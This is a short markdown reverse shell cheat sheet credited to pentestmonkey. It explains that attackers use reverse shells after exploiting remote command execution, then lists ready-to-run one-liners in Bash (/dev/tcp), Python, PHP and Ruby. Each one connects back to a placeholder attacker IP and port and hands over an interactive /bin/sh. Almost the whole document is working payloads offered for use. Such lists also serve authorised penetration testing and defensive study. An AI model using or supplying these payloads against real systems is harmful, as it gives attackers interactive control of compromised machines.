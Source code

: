 # REVERSE SHELL CHEAT SHEET

> Source : http://pentestmonkey.net/

<br>

A reverse shell is **a shell session established on a connection that is initiated from a remote machine**, not from the local host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack

<br>

IP : Attacker IP address

PORT: Listening Port ( Attacker )

<br>

__Bash__

```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

__Python__

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("<IP>", <PORT>))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

p=subprocess.call(["/bin/sh","-i"])
```

__Php__

```php
php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

__Ruby__

```ruby
ruby -rsocket -e'f=TCPSocket.open("<IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

